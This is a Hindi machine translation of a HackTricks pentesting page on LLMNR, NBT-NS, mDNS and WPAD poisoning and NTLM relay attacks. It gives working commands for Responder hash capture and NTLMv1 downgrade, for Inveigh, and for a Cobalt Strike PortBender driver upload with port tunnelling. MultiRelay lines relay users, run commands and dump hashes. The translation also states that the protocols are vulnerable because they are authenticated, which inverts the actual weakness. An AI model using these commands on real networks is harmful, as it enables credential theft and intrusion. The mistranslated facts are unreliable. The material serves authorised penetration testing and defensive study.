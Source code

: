 # Spoofing LLMNR, NBT-NS, mDNS/DNS और WPAD और रिले अटैक

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपने हैकिंग ट्रिक्स साझा करें।

</details>

## नेटवर्क प्रोटोकॉल

### स्थानीय होस्ट संकेत प्रोटोकॉल
- **LLMNR, NBT-NS, और mDNS**:
- माइक्रोसॉफ्ट और अन्य ऑपरेटिंग सिस्टम LLMNR और NBT-NS का उपयोग करते हैं जब DNS विफल होता है। उसी तरह, Apple और Linux सिस्टम mDNS का उपयोग करते हैं।
- ये प्रोटोकॉल अपने अथेंटिकेटेड, यूडीपी पर प्रसारित प्रकृति के कारण अंतर्दृष्टि और स्पूफिंग के लिए संवेदनशील हैं।
- [Responder](https://github.com/lgandx/Responder) का उपयोग किया जा सकता है सेवाओं का अनुकरण करने के लिए जो इन प्रोटोकॉलों का प्रश्न कर रहे होस्ट्स को झूठे जवाब भेजकर।
- Responder का उपयोग करके सेवा अनुकरण के बारे में अधिक जानकारी [यहाँ](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md) मिल सकती है।

### वेब प्रॉक्सी ऑटो-डिस्कवरी प्रोटोकॉल (WPAD)
- WPAD ब्राउज़र को प्रॉक्सी सेटिंग्स को स्वचालित रूप से खोजने की अनुमति देता है।
- खोज DHCP, DNS के माध्यम से सुविधा प्रदान करता है, या DNS विफल होने पर LLMNR और NBT-NS में लौटने की सुविधा प्रदान करता है।
- Responder द्वारा WPAD हमलों को स्वचालित कर सकता है, ग्राहकों को दुरुपयोगी WPAD सर्वरों पर निर्देशित करता है।

### प्रोटोकॉल पॉइजनिंग के लिए Responder
- **Responder** एक उपकरण है जो LLMNR, NBT-NS, और mDNS क्वेरी को पॉइजन करने के लिए उपयोग किया जाता है, प्रश्न प्रकार के आधार पर चुनकर प्रतिक्रिया देता है, मुख्य रूप से SMB सेवाओं को लक्ष्य बनाता है।
- यह Kali Linux में पूर्व-स्थापित है, `/etc/responder/Responder.conf` में कॉन्फ़िगर किया जा सकता है।
- Responder स्क्रीन पर पकड़े गए हैश प्रदर्शित करता है और उन्हें `/usr/share/responder/logs` निर्देशिका में सहेजता है।
- यह IPv4 और IPv6 दोनों का समर्थन करता है।
- Responder का Windows संस्करण यहाँ उपलब्ध है: [यहाँ](https://github.com/lgandx/Responder-Windows)।

#### Responder चलाना
- डिफ़ॉल्ट सेटिंग्स के साथ Responder चलाने के लिए: `responder -I <Interface>`
- अधिक प्रवेश के लिए प्रोबिंग (संभावित परिणामों के साथ): `responder -I <Interface> -P -r -v`
- NTLMv1 चैलेंज/प्रतिक्रिया को आसान क्रैकिंग के लिए कैप्चर करने के तकनीक: `responder -I <Interface> --lm --disable-ess`
- WPAD अनुकरण को सक्रिय करने के लिए: `responder -I <Interface> --wpad`
- NetBIOS अनुरोधों को हमलावर के IP पर हल किया जा सकता है, और प्रमाणीकरण प्रॉक्सी सेट किया जा सकता है: `responder.py -I <interface> -Pv`

### Responder के साथ DHCP पॉइजनिंग
- DHCP प्रतिक्रियाओं को स्पूफ़ करने से एक पीड़ित का रूटिंग सूचना स्थायी रूप से पॉइजन की जा सकती है, ARP पॉइजनिंग के लिए एक गुप्त वैकल्पिकता प्रदान करती है।
- लक्ष्य नेटवर्क के विन्यास के सटीक ज्ञान की आवश्यकता होती है।
- हमला चलाने के लिए: `./Responder.py -I eth0 -Pdv`
- यह विधि NTLMv1/2 हैश को प्रभावी ढंग से कैप्चर कर सकती है, लेकिन नेटवर्क विघटन से बचने के लिए सावधानी से हैंडल करने की आवश्यकता होती है।

### Responder के साथ क्रेडेंशियल कैप्चरिंग
- Responder उपरोक्त प्रोटोकॉल का दुरुपयोग करके सेवाओं का अनुकरण करेगा, क्रेडेंशियल को कैप्चर करेगा (सामान्यत: NTLMv2 चैलेंज/प्रतिक्रिया) जब एक उपयोगकर्ता झूठी सेवाओं के खिलाफ प्रमाणीकरण करने का प्रयास करता है।
- क्रैकिंग के लिए NetNTLMv1 या ESS को अक्षम करने के लिए प्रयास किए जा सकते हैं।

यह महत्वपूर्ण है कि इन तकनीकों का उपयोग कानूनी और नैतिक रूप से किया जाए, उचित अधिकृति सुनिश्चित की जाए और अवैध पहुंच या अनधिकृत पहुंच से बचा जाए।

## Inveigh

Inveigh एक उपकरण है पेनेट्रेशन टेस्टर्स और रेड टीमर्स के लिए, विंडोज सिस्टम के लिए डिज़ाइन किया गया है। यह Responder के समान कार्यक्षमताएँ प्रदान करता है, स्पूफिंग और मैन-इन-द-मिडल हमले करता है। यह उपकरण एक PowerShell स्क्रिप्ट से C# बाइनरी में विकसित हुआ है, [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh) और [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero) मुख्य संस्करण हैं। विस्तृत पैरामीटर और निर्देशों की जानकारी [**विकि**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters) में उपलब्ध है।

Inveigh को PowerShell के माध्यम से चलाया जा सकता है:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
या C# बाइनरी के रूप में निष्पादित:
```bash
Inveigh.exe
```
### NTLM रिले हमला

यह हमला SMB प्रमाणीकरण सत्रों का उपयोग करता है एक लक्ष्य मशीन तक पहुंचने के लिए, सफल होने पर एक सिस्टम शैल प्रदान करता है। मुख्य आवश्यकताएं शामिल हैं:
- प्रमाणित करने वाले उपयोगकर्ता को रिले होस्ट पर स्थानीय व्यवस्थापक एक्सेस होना चाहिए।
- SMB साइनिंग को अक्षम कर दिया जाना चाहिए।

#### 445 पोर्ट फॉरवर्डिंग और टनलिंग

उन परिस्थितियों में जहाँ सीधा नेटवर्क परिचय संभव नहीं है, पोर्ट 445 पर ट्रैफिक को फॉरवर्ड और टनल किया जाना चाहिए। [**PortBender**](https://github.com/praetorian-inc/PortBender) जैसे उपकरण सहायक होते हैं पोर्ट 445 ट्रैफिक को एक और पोर्ट पर पुनर्निर्देशित करने में, जो ड्राइवर लोडिंग के लिए स्थानीय व्यवस्थापक एक्सेस उपलब्ध होने पर आवश्यक है।

कोबाल्ट स्ट्राइक में PortBender सेटअप और ऑपरेशन:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### NTLM रिले हमले के लिए अन्य उपकरण

- **Metasploit**: प्रॉक्सी, स्थानीय और दूरस्थ होस्ट विवरण के साथ सेटअप करें।
- **smbrelayx**: SMB सत्रों को रिले करने और कमांड या बैकडोअर लागू करने के लिए एक Python स्क्रिप्ट।
- **MultiRelay**: एक उपकरण Responder सुइट से, विशिष्ट उपयोगकर्ताओं या सभी उपयोगकर्ताओं को रिले करने, कमांड चलाने या हैश डंप करने के लिए।

हर उपकरण को यदि आवश्यक हो तो एक SOCKS प्रॉक्सी के माध्यम से संरचित किया जा सकता है, जो अप्रत्यक्ष नेटवर्क एक्सेस के साथ भी हमले को संभावित बनाता है।

### MultiRelay ऑपरेशन

MultiRelay को _**/usr/share/responder/tools**_ निर्देशिका से निर्वाहित किया जाता है, विशिष्ट आईपी या उपयोगकर्ताओं को लक्षित करके।
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
### Force NTLM Logins

Windows में आपको **कुछ विशेषाधिकारी खातों को विभिन्न मशीनों पर प्रमाणीकृत करने के लिए मजबूर किया जा सकता है**। निम्नलिखित पृष्ठ को पढ़ें और जानें कैसे:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## संदर्भ
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी HackTricks में विज्ञापित हो** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) वाले [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
